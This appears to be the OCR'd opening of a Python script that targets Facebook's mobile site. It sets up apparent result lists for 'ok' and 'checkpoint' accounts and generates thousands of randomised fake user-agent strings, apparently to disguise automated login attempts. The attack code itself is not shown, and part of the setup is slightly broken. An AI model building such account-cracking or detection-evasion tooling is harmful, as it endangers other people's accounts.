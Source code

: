 user = []

loop = 0

oks = []

cps = []

loop = 0

url_lookup = "https://lookup-id.com/"

url_mb = "https://m.facebook.com"

url_ip = "https://www.httpbin.org/ip"

header_grup = {"user-agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 15_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.5 Mobile/15E148 Safari/604.1 [FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"}

bulan_ttl = {"01": "January", "02": "February", "03": "March", "04": "April", "05": "May", "06": "June", "07": "July", "08": "Augustus", "09": "September", "10": "October", "11": "November", "12": "December"}

done = False

ugen=[]

uas=[]

usa = ["Mozilla/5.0 Macintosh; Intel Mac OS X 10_10_2) AppleWebKit/{str(rr(1111,9999))}.{str(rr(20,100))}.{str(rr(20,100))} (KHTML, like Gecko) Version/{str(rr(20,100))}.0.{str(rr(1111,9999))} Safari/{str(rr(1111,9999))}.{str(rr(20,100))}.{str(rr(20,100))}"]

rr = random.randint

for xd in range(3005):

    ff=(f'Mozilla/5.0 Macintosh; Intel Mac OS X 10_10_2) AppleWebKit/{str(rr(1111,9999))}.{str(rr(20,100))}.{str(rr(20,100))} (KHTML, like Gecko) Version/{str(rr(20,100))}.0.{str(rr(1111,9999))} Safari/{str(rr(1111,9999))}.{str(rr(20,100))}.{str(rr(20,100))}')

    uas.append(ff)

for sat in range(1000):

	a='NokiaX'

	b=random.randrange(1,9)

	c='-0'

	d=random.randrange(1,9)

	e='/'

	f=random.randrange(1,9)

	g='.0 ('

	h=random.randrange(1,12)

	i='Profile/MIDP-2.1 Configuration/CLDC-1.1'
